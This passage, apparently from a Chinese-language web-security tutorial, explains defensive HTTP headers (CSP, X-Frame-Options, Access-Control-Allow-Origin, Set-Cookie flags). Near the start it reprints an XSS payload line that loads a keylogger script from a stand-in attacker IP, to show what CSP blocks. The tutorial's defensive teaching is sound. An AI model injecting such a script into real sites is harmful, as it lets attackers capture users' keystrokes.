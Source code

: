 回顾我们用XSS攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的 keylogger.js 的内容，从而实现按键记录功能。

<script%20src=http://192.168.3.193/keylogger.js></script>


可如果被攻击的Web应用添加了上述CSP策略，就会导致我们的JavaScript代码加载失败，从而无法实现我们的攻击行为。

下面，让我们继续学习X-Frame-Options安全标志的功能。

X-Frame-Options标志

X-Frame-Options响应头也是一个重要的HTTP Header安全标志，它用来配置是否允许一个页面可在 、、 或者  中展现设置的内容。

接下来，我们一起来看一个示例：

X-Frame-Options: DENY


在这个示例中，我们将它的值设为DENY，表示该页面不允许在frame等上述标签中展示任何内容。事实上，它还有两个可能取值SAMEORIGIN以及ALLOW-FROM uri。其中SAMEORIGIN代表仅允许在上述标签中展示与当前页面域名相同的内容，而ALLOW-FROM uri则代表仅允许在其中展示uri对应页面的内容。

还记得我们在XSS学习中，曾今利用XSS攻击实现了广告的植入操作，产生的效果如下图所示：



如果Web应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。

接下来，我们继续来学习另一个常用的HTTP协议响应头，即Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。

Access-Control-Allow-Origin标志

Access-Control-Allow-Origin标志指定了该响应的资源是否被允许与给定的origin共享。

为了让你更好地理解，下面让我们一起来看一些示例：

Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone


它有两种配置方式，第一种将它的值设为*，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的uri，这代表仅允许该域名访问当前响应的资源。因此，Access-Control-Allow-Origin标志可以使网站之间安全地跨域获取资源。

最后，我们来看一个相对熟悉一些的HTTP响应头Set-Cookie。

Set-Cookie标志

在上一讲中，我们学习了保持登陆状态的认证，事实上，它就是通过Set-Cookie来实现的。

Set-Cookie标志不仅可以用来配置浏览器的Cookie信息，同时它还能对Cookie信息进行一些保护。下面，还是一起看一个示例：

Set-Cookie: <cookie-name>=<cookie-value>; Secure; HttpOnly


在这个示例中，我们写入了一个cookie的值，同时在后面加了两个配置项，Secure以及HttpOnly。其中Secure的作用是强制cookie只能在HTTPS环境下传递，而HttpOnly则可以禁止使用JavaScript去存取cookie。它们都可以有效地保护cookie信息，防止攻击者窃取cookie。

总结

在这一讲中，我们学习了HTTP Header对于Web提供的协议级别的安全支持。

首先，我们回顾了HTTP协议的内容，并对请求报文的格式以及响应报文的格式等基础知识进行了学习与回顾。

在学习基础知识的过程中，我们了解到在响应报文中，会存在一些HTTP Header信息。其中，有的HTTP Header内容可以对我们的Web应用进行保护。
